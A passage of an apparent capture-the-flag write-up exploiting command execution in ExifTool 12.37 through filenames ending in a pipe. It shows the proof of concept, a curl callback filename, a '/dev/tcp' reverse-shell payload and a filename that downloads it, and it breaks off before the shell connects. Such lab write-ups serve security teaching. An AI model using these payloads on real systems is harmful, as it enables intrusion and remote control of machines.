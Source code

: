 At the very top, it leaks version: **12.37**. Googling for *'exiftool 12.37 exploit'* shows [this](https://gist.github.com/ert-plus/1414276e4cb5d56dd431c2f0429e4429) github gist, claiming that versions before 12.38 are vulnerable to RCE. The vulnerability is in the incorrect handling of the file name. If a file name ends with a pipe character `'|'`, and the file exists on the system, the file name will be treated as a command and executed. The gist provides a simple proof of concept:
```
$ ls pwn
ls: cannot access 'pwn': No such file or directory
$ touch 'touch pwn |'
$ ./exiftool 'touch pwn |'
ExifTool Version Number         : 12.37
File Name                       : touch pwn |
Directory                       : .
File Size                       : 0 bytes
File Modification Date/Time     : 2022:01:18 18:40:18-06:00
File Access Date/Time           : 2022:01:18 18:40:18-06:00
File Inode Change Date/Time     : 2022:01:18 18:40:18-06:00
File Permissions                : prw-------
Error                           : File is empty
$ ls pwn
pwn
```

To test this out, I am going to rename my cat.jpg image to curl payload:
```
❯ mv cat.jpg 'curl 10.10.14.198:8000 |'
```

I upload the image, and I get a callback on my webserver:
```
 ❯ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.11.197 - - [19/Apr/2023 20:22:15] "GET / HTTP/1.1" 200 -
```

## Foothold

Now that I know the RCE works, it is time to craft a payload for the reverse shell. I want to avoid special characters, so I am going to save the payload to a file:
```
❯ echo 'sh -i >& /dev/tcp/10.10.14.198/9999 0>&1' > rev
```
Now I encountered an obstacle because bash treats a `/` in the URL as a slash in file path and refuses to rename the file:
```
❯ mv 'curl 10.10.14.198:8000' 'curl 10.10.14.198:8000/rev -o rev'
mv: cannot stat 'curl 10.10.14.198:8000/rev -o rev': Not a directory
```
The solution is to rename the `rev` file to `index.html` and then make the request without any slashes:
```
❯ mv rev index.html
❯ mv 'curl 10.10.14.198:8000' "curl 10.10.14.198:8000 -o rev|"
```
Curl should download the `index.html` file when it is called like this and then save it as `rev `. I upload the file and get a hit on the webserver:
```
10.10.11.209 - - [19/Apr/2023 20:42:56] "GET / HTTP/1.1" 200 -
```

